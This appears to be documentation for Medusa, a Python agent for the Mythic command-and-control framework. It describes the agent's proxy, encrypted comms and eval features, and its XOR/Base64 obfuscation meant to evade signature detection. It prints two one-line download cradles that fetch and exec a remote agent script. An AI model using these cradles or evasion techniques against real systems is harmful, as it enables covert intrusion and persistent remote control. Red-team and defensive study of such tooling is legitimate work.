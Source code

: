 +++
title = "Medusa"
chapter = false
weight = 5
+++

![logo](/agents/medusa/medusa.svg?width=200px)
## Summary

Medusa is a cross-platform Python agent compatible with Python 2.7 and 3.8.

### Highlighted Agent Features

Python is an incredibly popular programming language and is often installed by default on many operating systems. Python 2.7, for example, is currently available on the latest macOS installs (though expected to be discontinued).
Default libraries, such as `Cocoa` and `ctypes`, allow access to Objective-C APIs and functionality through Windows DLLs.

The Medusa agent itself has several key features including:
- Support for dynamic loading/unloading of functionality to limit exposure of agent capabilities on-disk. 
- A SOCKS5 proxy compatible across Python 2.7 and 3.8, and across macOS, Windows and Linux.
- Encrypted comms.
- `Eval()` of Python code to dynamically extend functionality.

With the ability to execute arbitrary script on the command-line, a rudementary download cradle can be used, such as the below (notably, not proxy-aware):
```
python3 -c "import urllib.request; exec(urllib.request.urlopen('https://[REMOTE_HOST]/medusa.py').read())" &
```

Or for Python 2.7:
```
python -c "import urllib2;exec(urllib2.urlopen('https://[REMOTE_HOST]/medusa.py').read())" &
```

### Build Options

This section provides details of what each Medusa-specific build option provides

#### Python Version

Pretty self-explanatory, select which version of Python the Medusa agent should be created for. See the Development section for details of how this works under the hood.

#### Output Format

Mythic can provide the final agent code as a Python script, or as a Base64-encoded blob. Note that this is the last stage of the process effectively. So any XOR obfuscation, crypto library selection or Python version selection will take place before this.

#### Cryptography library

Medusa agents can be built using either a manual crypto implementation or using the non-default `cryptography` library. Given, the manual implementation isn't going to be as quick or efficient as the main Python library (not to mention the extra code required), `cryptography` use might be the way to go. Though do bear in mind, it is not a default library and appears to only be installed on macOS by default.

{{% notice info %}}
 Either option here won't affect the agents ability to use encrypted comms, it is purely to specify how the encrypted comms are achieved.
{{% /notice %}}

#### XOR and Base64-encode

Finally, the plaintext Medusa script can be encrypted via XOR with a randomly-generated key, before being Base64 encoded. This blob is then wrapped with an unpacker and put in a `exec()` function to ultimately run the Medusa agent. This is designed to make the agent less signaturable when on-disk. See the OPSEC section for more details.



### Important Notes
Each job is executed in a new thread. Long-running jobs can be viewed with the `jobs` command and, where a 'stop' functionality has been implemented, they can be killed with `jobkill`.

## Authors
@ajpc500


